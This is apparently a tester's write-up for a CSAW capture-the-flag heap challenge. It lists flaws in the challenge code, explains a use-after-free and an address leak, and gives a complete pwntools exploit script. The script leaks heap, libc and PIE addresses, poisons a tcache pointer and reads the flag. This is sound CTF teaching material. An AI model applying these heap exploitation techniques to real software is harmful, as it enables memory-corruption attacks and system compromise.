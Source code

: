 # **Comments:**

1. It's a good challenge for learning a new version glibc and I consider there is no more easy way to get the flag than except solution because of the limitation of malloc/calloc and the data we could modify.
2.  some little flaws: (all of them would not generate a unexcepted solution)
    1. we don't need `fflush(stdout)` because we have set `stdout` buffer to 0 | in function `get_ulong` and `get_unum`
    2. In function `sign` , the result of `int index = read(0, globals.sign, 12);` could not be trusted so that `globals.sign[index - 1] = '\0';` could lead to `negtive-overflow` . And same in `get_lucky_num` , if we call it twice, it would lead to undefined action.
    3. function `focus` could be removed, because people could trigger consolidate by `scanf` . And you could keep it because I think it's too tricky for people and that's not the goal of the challenge.
    4. `index` in `print_8ball_fortune` and `print_cookie_fortune` is unsigned int so we don't need to check if it is larger than 0.
    5. `if (index != 0)` is not necessary in `delete_cookie` because `index` would not be `0` . 
    6. `question[0x6f] = '\0';` in function `ask_8ball` could be remove, it makes the vulnerability seems a`purposive` one

# Tester's Solution

1. There are two vulnerabilities that could be used to generate an exploit in this challenge, due to the limited time, I cheated by reading the source code and asking Ian for some tips. It took me about 9 hours to finish that challenge. 
    1. First vulnerability, UAF if delete the last one; could be reused by delete + fill the array
    
    ```c
    free(c[index++].next);
      for (; index < globals.curr_cookie_index; index++) {
        if (index != 0) {
          c[index].prev = c[index].next;
          c[index].next->next = (unsigned int *)&c[index - 1];
        }
        if (index != MAX_COOKIES - 1) {
          c[index].next = c[index + 1].next;
        }
        else {
          c[index].prev = 0;
          c[index].next = 0;
          globals.curr_cookie_index--;
        }
      }
    ```
    
    b. Second vulnerability, address leak
    
    ```c
    read(0, question + 17, 0x70 - 17);
      question[0x6f] = '\0';
    ```
    

 

1. Leak heap, libc-base, and PIE by UAF, UAF+consolidate, and Second Vul.
2. Hijack global struct in .bss, read the flag.

# Tester's EXP

```c
from pwn import *
#context.log_level='debug'
def cmd(c):
	p.sendlineafter("> ",str(c).encode("utf8"))
def sign():
	cmd(0)
	p.sendlineafter("> ",b"Aries")
def malloc(c=b'./flag.txt\0',save=1):
	cmd(1)
	p.sendlineafter("> ",c)
	if(save==1):
		p.sendlineafter("> ",b'Y')
	else:
		p.sendlineafter("> ",b'N')
def add(c=-1):
	cmd(2)
	if(c!=-1):
		cmd(c)
def show(idx):
	cmd(4)
	cmd(idx)
def d():
	cmd(5)
def smc(c,d=b'1'):
	cmd(8)
	if(c==1):
		p.sendlineafter("> ",d)
	else:
		p.sendlineafter("> ",b'N')
		p.sendlineafter("> ",b'Y')
#p=process("./main")#,env={"LD_PRELOAD":'./libc.so.6'})
p=remote("pwn.chal.csaw.io",5010)
for x in range(6):
	smc(1)
	smc(0)
for x in range(0x21):
	add()
for x in range(8):
	malloc()
for x in range(7):
	d()
add(0x20)
show(0x20)
p.read(1)
heap=(u64(p.readline()[:-1].ljust(8,b'\0'))<<12)-0x1000
log.warning(hex(heap))
cmd("1"*0x500)
show(0x20)
p.read(1)
base=u64(p.readline()[:-1].ljust(8,b'\0'))-(0x7ffff7fb2d30-0x7ffff7dc0000)
log.warning(hex(base))
for x in range(7):
	malloc()
cmd(1)
p.sendafter("> ",b"A"*(0x70-17-0x8))
p.sendlineafter("> ",b"Y")
cmd(3)
cmd(8)
p.readuntil(b'A'*(0x70-17-8))
pie=u64(p.readline()[:-1]+b'\0\0')-(0x55555555a2a0-0x0000555555554000)
log.warning(hex(pie))
add(0x1f)
add()
for x in range(6):
	d()
add(0x20)
smc(1)
smc(0)
cmd("1"*0x500)
smc(1)
smc(0)
smc(1)
add(0x20)
cmd(8)
p.sendlineafter("> ",b'Y')
p.send(p64((0x55555555a020-0x555555554000+pie)^((heap>>12)+1)))
sign()
cmd(7)
p.sendafter("> ",p64(0x55555555c3f1-0x55555555b000+heap)+p64(1))
#gdb.attach(p)
cmd(6)
p.interactive("")
```
